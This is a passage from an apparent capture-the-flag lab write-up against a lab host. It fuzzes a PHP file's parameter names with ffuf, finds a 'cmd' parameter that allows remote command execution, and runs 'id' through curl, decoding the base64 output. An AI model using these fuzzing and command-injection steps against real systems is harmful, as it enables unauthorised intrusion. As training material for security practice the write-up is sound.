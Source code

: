 ```bash
Progress: 11424 / 11425 (99.99%)
===============================================================
Finished
===============================================================
```

Most of the results are `Forbidden (403)`, but we found an `index.php` file, if we access it via browser, nothing is displayed, but since it's a **PHP** file, it may have some vulnerable parameter defined, we can try this by giving the parameter a command injection and fuzzing for the parameter name.

```bash
❯ ffuf -u "http://10.10.81.200/assets/index.php?FUZZ=id" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0 -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.81.200/assets/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 453ms]
:: Progress: [6453/6453] :: Job [1/1] :: 1030 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

Bingo, we found a `cmd` parameter, that allow us to **RCE**.

Let's try to see if it works.

```bash
❯ curl -s "http://10.10.81.200/assets/index.php?cmd=id" | xargs
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

Seems like we get a `base64` coded output, so if we decode it we get the output of the command.

```bash
❯ curl -s "http://10.10.81.200/assets/index.php?cmd=id" | xargs | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
